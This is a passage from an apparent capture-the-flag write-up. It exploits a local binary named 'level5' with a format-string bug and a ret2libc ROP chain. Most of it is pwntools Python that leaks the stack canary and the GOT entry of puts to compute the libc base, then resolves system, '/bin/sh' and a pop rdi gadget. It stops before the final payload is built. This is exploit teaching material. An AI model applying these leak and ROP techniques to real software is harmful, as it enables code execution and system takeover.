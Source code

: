Because the stack is not executable, we shall use the good old ROP to ret2libc. This is the pseudocode of what we will do to obtain a shell. 
```
1. Pop address of /bin/sh to rdi
2. Return to <system> in libc.
```

To obtain the real addresses of `'/bin/sh'` and `<system>`, we need to find their respective offsets in the shared library and the shared library's base address loaded into virtual memory.

```
from pwn import *
r = process('./level5')
elf = ELF('level5')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
r.recvuntil('[3 format]: ')
r.sendline('3')

# To obtain the stack canary's value
r.recvuntil('The possibilities are endless!\n')
r.sendline('%71$lxA')
stack_can = int(r.recvuntil('A')[:-1], 16)
log.info('Stack canary : ' + hex(stack_can))

# To obtain the offset of the functions/ ROP gadgets in the shared library.
puts_offset = libc.symbols['puts']
system_offset = libc.symbols['system']
binsh_offset = libc.search('/bin/sh').next()
poprdi_ret_offset = libc.search(asm('pop rdi; ret', arch = 'amd64', os = 'linux')).next()

# To find the base address of the shared library loaded into the executable.
puts_got = elf.got['puts']
print "puts_got       =", hex(puts_got) 
puts_plt = elf.plt['puts']
r.recvuntil('[3 format]: ')
r.sendline('3')
r.recvuntil('The possibilities are endless!\n')     #The newline character is VERY important. If you do not include it, the puts_addr returned will be very different from the correct one.
r.sendline('%7$sAAAA' + p64(puts_got))
puts_addr = r.recvuntil('AAAA')[:-4]
for i in range(8 - len(puts_addr)):
	puts_addr += '\x00'
puts_addr = u64(puts_addr)
base_addr_libc = puts_addr - puts_offset
[...]
```
We use `puts` to get the base address of the shared library. This is because after `puts` was called once, its real address location was resolved by the resolver in the PLT, and sits in the GOT. Thus, we find the address of `puts`' GOT entry, and use the format string vulnerability to print out the value it points to. `%s` is the perfect choice as the argument given to it is the *pointer* to the string we want to print, and `puts`' GOT entry points to its real address.

Our exploit is merely a chain of the real addresses of `'/bin/sh'`, `<system>` and the ROP gadget `pop rdi; ret`.
```
[...]
binsh_addr = binsh_offset + base_addr_libc
system_addr = system_offset + base_addr_libc
poprdi_ret_addr = poprdi_ret_offset + base_addr_libc
print "puts_offset    =", hex(puts_offset)
print "puts_addr      =", hex(puts_addr) 
print "base_addr_libc =", hex(base_addr_libc) 
print "system_addr    =", hex(system_addr)
print "binsh_addr     =", hex(binsh_addr)

# Crafting the exploit
```